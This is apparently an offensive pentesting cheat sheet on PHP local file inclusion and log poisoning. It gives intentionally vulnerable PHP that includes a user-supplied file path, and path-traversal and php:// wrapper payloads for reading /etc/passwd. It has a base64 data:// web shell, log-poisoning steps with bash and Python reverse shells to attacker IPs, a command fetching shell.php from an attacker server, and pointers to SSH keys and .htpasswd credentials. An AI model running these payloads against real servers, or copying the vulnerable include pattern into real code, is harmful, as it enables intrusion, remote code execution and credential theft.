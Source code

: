 ## Local file inclusion

### PHP
##### Vulnerable code:
###### Standard vulnerable to everything:
```php
<?php                                                                                                                                                                                                                                          
include 'templates/header.php';                                                                                                                                                                                                                
?>                                                                                                                                                                                                                                             
<div class="container mt-4">                                                                                                                                                                                                                   
<?php                                                                                                                                                                                                                                          
ini_set('display_errors', true);       # UNSAFE        
ini_set('safe_mode', false);           # UNSAFE (removed from PHP 5.3.0 onwards). If enabled, won't allow reads to anyhting not user-owned, DB creds should be in the file if it accesses any DB. Other functions can be disabled (readfile, basedir)
# http://php.adamharvey.name/manual/en/ini.sect.safe-mode.php

ini_set('allow_url_fopen', false);     # Disallows PHP opening URL files                
ini_set('allow_url_include', false);   # Allows "include" statements to the PHP code. note: Can only be enabled if "allow_url_fopen" is true. https://www.php.net/manual/en/filesystem.configuration.php
ini_set('allow_url_include', 'Off');   # ?

if(isset($_GET['page'])){
        include($_GET['page']); # VULNERABLE (any payload injected will work)
}else{
        include 'menu.php';
}
?>
</div>
<?php
include 'templates/footer.php';
?>
```
###### PHP with filter (/var/www/html):
```php
<?php
include 'templates/header.php';
?>
<div class="container mt-4">
<?php
ini_set('display_errors', true);       # UNSAFE        
ini_set('safe_mode', false);           # UNSAFE (removed from PHP 5.3.0 onwards). If enabled, won't allow reads to anyhting not user-owned, DB creds should be in the file if it accesses any DB. Other functions can be disabled (readfile, basedir)
# http://php.adamharvey.name/manual/en/ini.sect.safe-mode.php

ini_set('allow_url_fopen', false);     # Disallows PHP opening URL files                
ini_set('allow_url_include', false);   # Allows "include" statements to the PHP code. note: Can only be enabled if "allow_url_fopen" is true. https://www.php.net/manual/en/filesystem.configuration.php
ini_set('allow_url_include', 'Off');   # ?

function containsStr($str, $subStr){
    return strpos($str, $subStr) !== false;
}

if(isset($_GET['page'])){
    if(!containsStr($_GET['page'], '../..') && containsStr($_GET['page'], '/var/www/html')){
        include $_GET['page'];
    }else{
        echo 'You are not allowed to go outside /var/www/html/ directory!';
    }
}else{
    include 'menu.php';
}
?>
</div>
<?php
include 'templates/footer.php';
?>

```

#### Achieving LFI:
##### General payloads
```
- Standard:
/etc/passwd
../../../../../../../etc/passwd

- URL encodings
%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/etc/passwd
/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd

- "Filter and remove" bypass
....//....//....//....//....//....//....//....//etc/passwd

- Original path kept
/var/www/../../etc/passwd
/var/www/html/../../../etc/passwd
```

##### PHP wrappers
PHP wrappers have the same general functionality as normal LFI, but they can bypass some filters.
```
php://filter/string.rot13/resource=../../../../../etc/passwd
php://filter/convert.base64-encode/resource=../../../../../../../etc/passwd                              // Use to read PHP files (resource=index.php)
data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+txt         // `cmd` argument inclusion, prints "Shell done!" if it works
```


### Log poisoning (RCE)
##### Required
Access to files
A log file (Usually `/var/log/apache2/access.log`), see #

#### Linux
##### Important
First, run 
```
../../../proc/self/environ
```
to get general information.
If RCE doesn't work, try RFI (other vhosts on machine)
If there is HTTP-BASIC-AUTH involved, check the `.htpasswd` file, it often contains credentials. (usually `/etc/apache2/.htpasswd`)
##### Target files: 
```
RCE:
/var/log/apache2/access.log
Payload:
	bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.10.10%2F4444%200%3E%261%22 

Other potentially interesting files:
/proc/self/environ
/etc/passwd -->
	/home/USER_FOUND/.ssh/id_rsa
	/home/USER_FOUND/.bash_history
	/home/USER_FOUND/.bash_profile

```

#### Windows
##### Target files: 
```
C:\xampp\apache\logs\access.log
Payload:
	https://www.revshells.com/ (Powershell base64 - URL encoded)
```

#### General
Payload: 
```
<?php system($_GET['test']);?>

// Get PHP shell (named shell.php) from python3 server (saves as shell.php)
<?php file_put_contents('shell.php', file_get_contents('http://IP:PORT/shell.php'))?>
```

First, you need to get the payload in the log system:

```
nc IP PORT
GET /'<?php system($_GET['rce']); ?>'
test=bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.45.241%2F4444%200%3E%261%22 
```

If this does not work, set your User-Agent as the payload.

To use the payload, send a request to the log file with the command in your payload:
```
// Template
curl http://IP/vulnerable.php?file=LOG_FILE_LOCATION&CMD=PAYLOAD

// Examples
curl http://IP/vulnerable.php?file=LOG_FILE_LOCATION&CMD=sh -i >& /dev/tcp/10.8.1.167/4444 0>&1
curl http://IP/vulnerable.php?file=LOG_FILE_LOCATION&CMD=export RHOST="10.8.1.167";export RPORT=4444;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```

### Note
Importanot note:
If you can read `/etc/passwd`, go through every user's home directory for the `.bashrc`


##### Mongo
Target file: `/var/www/dev/index.js`